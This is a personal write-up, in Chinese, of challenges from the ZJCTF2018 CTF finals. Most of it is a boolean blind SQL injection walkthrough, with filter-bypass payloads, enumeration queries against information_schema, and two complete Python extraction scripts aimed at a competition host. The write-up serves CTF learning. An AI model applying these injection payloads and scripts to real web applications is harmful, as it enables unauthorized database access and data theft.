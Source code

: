# ZJCTF2018 final
记录一下省赛线下这一天我参与的题目，以作留存。

## 0x01你追我赶
看到这道题，先抓包，发现包内有静态 js 文件：`/static/game/index.js`

而且源码里也提示题目是 offline，可以想见这道题目的总体思路是修改本地逻 辑。 这是一个以 chrome 恐龙游戏为基础的题目，在以前也做到过，不同的是，在 home 页面可以看到游戏规则里写坚持 1 分钟即可获得 flag。因此改分数是不太对的， 所以我选择搜索碰撞逻辑然后修改,去掉了 else 后面调用 gameover 的代码，这样 就不会碰撞了：
![](ZJCTF2018%20final/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202018-11-05%20%E4%B8%8A%E5%8D%888.56.05.png)
五分钟后还原代码，然后用 burp 拦截 ajax 请求，在回复报文中获得 flag。 当然，在写 wp 复看这段代码的时候还找到了 post 请求的代码段，这样自主发包 想必应该也是一种思路。
决赛后新加post成功后的四张图片像素位比较，因为misc我不管，在此就不多赘述。
<br>

##  0x02知法懂法
Sqlmap扫id字段dump出整个数据库，比对每一条和网络安全法有什么区别。发现第二十九条与标准法不同。
然后猜谜，该提交什么呢，往哪里提交呢？ctf真是一个猜谜游戏，爆了网页，爆了属性名，最后发现提交正确的第二十九条内容即可获得flag
<br>

## 0x03再快一点
原题，存在于各类基础ctf题库，脚本如下：
```python
import requests
import base64

url= ‘http://172.21.1.102:61234/hC1DU4oEZ3’
s = requests.Session()
flag = base64.b64decode(base64.b64decode(s.get(url).headers[‘flag’]).decode(‘utf-8’).split(‘:’)[1]) 
postdata = {‘margin’:flag}
*print*(s.post(url, data=postdata).text)
```
<br>

## 0x04Blind
写这篇writeup就想记录一下这个耻辱，自己拱手相让的冠军真的很令人难受。
### 基础性判断判断：
当被字符等截断前的数字为1-5时返回you find it!，被过滤字符返回Probably you need an other mothod.，其余返回hide more deep。
发现黑名单字符为：`> <> != ' %27 # and union 空格`
未被过滤的字符为：`() ^ or %20 - CHAR() "  %00 select <`
确定是字符型注入：`1-1`结果未变
所以暂且把hide more deep当作**错误值**，you find it!当作**正确值**，因为需要用`or`连接，所以第一位要先取错误值，比如`0`，然后or后拟构造出一个true，让查询返回正确，否则返回错误。过程中发现，虽然`'`被过滤，但是`”`却可以完成构造，说明字符串被双引号闭合，所以完成poc也不成问题。

### 最后构筑payload结构如下：
 `0"or"1"^"1"^(xxxxxx)--%20` 
 
ps1: 我🐎也不知道狗哥在帮试payload的时候经历了什么，核心payload的前面要加”1”^”1”，讲道理这样能用的话，只要在核心前加“0”即可，不过令人奇怪的是：or”1”^”1”和or1^1返回的结果有差异，可能数据库是MSSQL之类的原因。

ps2：由于当时我在尝试了> 和<>没有试<，理所当然觉得<也被过滤了，是我的失误，所以最后用减号，这大大降低了脚本的优势，以至于我后来一直选择burp工程锤来爆破。
不管怎么说，总算是能用了。

### 编写脚本：
脚本里用到的payload如下：
 `0"or"1"^"1"^(ascii(substr(database(),{0},1))-{1})--%20` 
脚本编辑如下：
```python
# POST boolean blind sql injection
import requests

url = 'http://172.21.1.102:61234/iFmn2H0UOq'
s = requests.Session()
key = ''

for pos in range(1,2): 
	for mid in range(0,127):
		payload = r'0"or"1"^"1"^(ascii(substr(database(),{0},1))-{1})--%20'.format(pos,mid)
		data = {'id':payload,'Submit':'Search'} 
		r = s.post(url, data=data)
		print(len(r.text))
		# if b"Hide more deep" in r.content:
		if len(r.text)==647:
			break

	key += chr(mid)
	print(key)
print("result:",key)
```
很遗憾，不知道为何，同样的payload，在burp下能爆出来，脚本就会出现问题，原因大抵是python对payload中双引号的处理可能和正常报文有所不同，我也不是特别熟悉request模块，所以在此即然burp能用，就索性用了burp。

### burp上爆肝一般的爆破开始：
使用payload如下：
`0"or"1"^"1"^(ascii(substr(((select group_concat(xxx) from xxx)),{0},1))-{1})--%20`
* 爆数据库名：
`0"or"1"^"1"^(ascii(substr((((select group_concat(schema_name) from information_schema.schemata))),{0},1))-{1})--%20`
获得`information_schema tips useless`
* 爆表名：
`0"or"1"^"1"^(ascii(substr(((SELECT group_concat(table_name) FROM information_schema.tables)),{0},1))-{1})--%20`
800字长。。。。。
* 爆字段名：
`0"or"1"^"1"^(ascii(substr(((select group_concat(xxx) from xxx)),{0},1))-{1})--%20`
1200字长。。。。。没有写脚本真的很僵。所以就在这里卡住了。。。
中间还用了max和min,爆出了zjctf这个表名，判断是useless.zjctf，然而依旧无济于事，最终没找到正确的列名比赛就结束了。
现在想想，应该是去解决我脚本上的问题，而不是头铁来用burp爆。

### 拜读ch1p战队wp后的总结和思考
几个点：
1. 首先，他们和我一样，burp上正确的payload用在脚本中就会出现问题，他们的结论是`--`上会有问题，这我就没有深究出来。而且，他们及时转换策略，将`--`换成了`or "-`，使脚本能够成功运行。哎
2. 在poc的设计上，使用`/**/`代替空格，我用`^()`取代了空格；`in`取代比较字符，所以用了substr却没加ascii。没有使用`<`我觉得在这句话来讲是有问题的，首先是编写脚本的时候就不能用二分法加快搜索速度，其次是不区分大小写的特性导致了后面爆writeup出现问题。

**其部分wp如下：**
在当前库tips中，并没有发现flag ,需要进行跨库查询，首先需要先在information_schema库中，获得所有的库名。

payload:`payload = '-1" or substr((select group_concat(table_schema) from information_schema.tables where table_schema not in ("information_schema","tips")),%s,1) in ("%s") or "0'`

得到还存在一个名为userless 的数据库，查询其表段，得知存在zjctf 表，flag 在其content 字段。
跑出的 flag 为：zjctf{aa0_bl1nd_hha} 但是上交时提示错误。懵了一会儿后突然想起in 是不区分大小写的。 那么猜测大写字母，针对 flag 中唯一的单词，尝试提交aa0_Bl1nd_hha 成功！

下面是完整的脚本：
```python
"""
    Author:Li4n0
    Date:2018-11-4
"""
import requests
import string

# in 不区分大小写 需要自己再判断一次

url = 'http://172.21.1.102:61234/iFmn2H0UOq'
#payload = '-1" or substr((select group_concat(column_name) from information_schema.columns where table_name in ("zjctf")),%s,1) in ("%s") or "0'

#payload = '-1" or substr((select group_concat(table_schema) from information_schema.tables where table_schema not in ("information_schema","tips")),%s,1) in ("%s") or "0'

payload = '-1" or substr((select group_concat(content) from useless.zjctf),%s,1) in ("%s") or "0'
key = ''
length = 1
while True:
    for i in string.printable.replace('#', ''):
        data = {
            'id': payload.replace(' ', '/**/') % (str(length), i),
            'Submit': 'Search'
        }
        r = requests.post(url, data=data)
        if 'You find' in r.text:
            key += i
            length += 1
            break
    print(key)
```
个人认为，这个脚本，精髓就在where后的`in`和`not in`，败笔在(“%s”)前的`in`。值得吸收的点还有使用`for i in string.printable.replace('#', '')`来爆破字符，比我的脚本要精确一点。不管如何，它能跑出答案，一切都无所谓了。同样是九年义务制教育，他们现在比我更加优秀。


END:)


